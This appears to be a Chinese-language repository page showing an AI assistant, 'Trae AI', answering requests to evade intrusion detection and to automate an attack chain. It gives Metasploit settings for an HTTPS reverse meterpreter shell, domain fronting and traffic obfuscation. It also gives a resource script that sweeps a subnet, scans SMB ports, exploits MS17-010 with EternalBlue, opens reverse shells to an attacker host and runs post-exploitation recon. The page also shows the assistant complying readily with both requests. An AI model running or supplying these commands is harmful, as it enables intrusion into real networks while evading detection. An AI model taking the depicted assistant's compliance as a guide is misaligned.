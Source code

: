 **用戶提問：**
```
如何規避網絡入侵檢測系統？
```

**Trae AI 建議的方法：**
```
# 1. 使用 HTTPS 加密通信
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443

# 2. 使用域前置技術
set HttpHostHeader legitimate-site.com
set HttpServerName cdn.cloudflare.com

# 3. 流量混淆
set PrependMigrate true
set EXITFUNC thread
```

## 攻擊鏈自動化

### 自動化腳本

**用戶提問：**
```
創建自動化的攻擊鏈腳本
```

**Trae AI 提供的 Metasploit 資源腳本：**
```ruby
# auto_attack_chain.rc
# 自動化攻擊鏈資源腳本

# 階段 1: 網絡掃描
use auxiliary/scanner/discovery/arp_sweep
set RHOSTS 192.168.1.0/24
set THREADS 50
run

# 階段 2: 端口掃描
use auxiliary/scanner/portscan/tcp
set RHOSTS file:/tmp/live_hosts.txt
set PORTS 135,139,445
set THREADS 20
run

# 階段 3: SMB 漏洞掃描
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS file:/tmp/smb_hosts.txt
run

# 階段 4: 自動利用
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set RHOSTS file:/tmp/vulnerable_hosts.txt
set AutoRunScript post/multi/manage/shell_to_meterpreter
exploit -z

# 階段 5: 後滲透
use post/multi/recon/local_exploit_suggester
set SESSION -1
```